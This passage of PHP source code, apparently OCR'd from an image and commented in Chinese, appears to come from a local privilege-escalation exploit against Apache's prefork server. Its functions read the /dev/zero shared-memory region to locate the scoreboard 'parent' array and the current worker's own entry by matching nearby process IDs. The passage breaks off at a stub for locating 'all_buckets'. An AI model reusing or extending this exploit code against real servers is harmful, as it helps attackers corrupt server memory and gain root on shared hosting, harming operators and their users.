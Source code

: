 ```
	}
	fclose($file);

	return $result;
}


function locate_parent_arr_addr()//获取共享内存中，parent数组的首地址
{
	$my_pid = getmypid();
	$shm_region = get_mem_region("/dev/zero");
	if(!count($shm_region))
		return 0;

	//parent数组项的大小是，每个0x20个字节
	//pid_t在我环境中，大小4字节
	$pid_t_size = 4;
	$parent_size = 0x24;
	
	//只检查共享内存的前0x1000字节(4KB)
	for($i = 0;$i<0x1000;$i++){
		$hit_count = 0;
		for($j = 0;$j<5;$j++){//循环次数，请参考httpd-mpm.conf中的prefork的MinSpareServers
			$pid = read_mem_dword($shm_region[0][0]+ $i + $j*$parent_size);
			if( $my_pid - 20 < $pid && $pid < $my_pid+20){//因为prefork中，进程的pid是紧挨的，我们可以通过这个来判断是否是parent数组的首地址
				$hit_count++;	
			}
		}
		if($hit_count == 5){
			return $shm_region[0][0]+$i;
		}
	}
	

	return 0;
}



function locate_self_parent_struct_addr()//获取共享内存中，当前parent的首地址
{
	$my_pid = getmypid();
	$shm_region = get_mem_region("/dev/zero");
	if(!count($shm_region))
		return 0;
	//因为parent数组，总是位于第一个/dev/zero中，所以，我们只搜索第一个
	echo "/dev/zero start addr:0x".dechex($shm_region[0][0])."\n";
	echo "/dev/zero end addr:0x".dechex($shm_region[0][1])."\n";
	

	for($i =0;$i<4096;$i++){
		$pid = read_mem_dword($shm_region[0][0]+$i);//pid_t在我的环境中，为4字节大小
		if($pid == $my_pid){
			return $shm_region[0][0]+$i;//找到直接返回
		}
	}
	
	return 0;
}

//获取all_buckets的地址
function locate_all_buckets_addr()
```